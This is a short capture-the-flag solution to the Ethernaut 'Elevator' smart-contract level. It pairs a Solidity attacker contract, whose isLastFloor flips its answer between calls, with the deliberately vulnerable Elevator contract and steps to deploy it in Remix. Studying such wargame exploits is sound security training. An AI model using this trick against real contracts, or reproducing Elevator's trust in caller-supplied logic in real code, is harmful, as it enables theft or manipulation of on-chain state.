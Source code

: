 [11 - Elevator](https://ethernaut.openzeppelin.com/level/0x4A151908Da311601D967a6fB9f8cFa5A3E88a251)

Solution: 
* the contract will call the isLastFloor function on any msg.sender Building address
* we can create a Building contract that first returns false, and then true, for isLastFloor, irrespective of floor
* deploy with Remix and call solve
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Building {
  bool private isLastFloorBool = true;
  Elevator private constant elevatorContract = Elevator(0xf23298C44CA2d4659Bb3064FbC42D4aBC634Bc69);

  function solve() external {
    elevatorContract.goTo(0);
  }

  function isLastFloor(uint) external returns (bool) {
    isLastFloorBool = !isLastFloorBool;
    return isLastFloorBool;
  }

} 

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```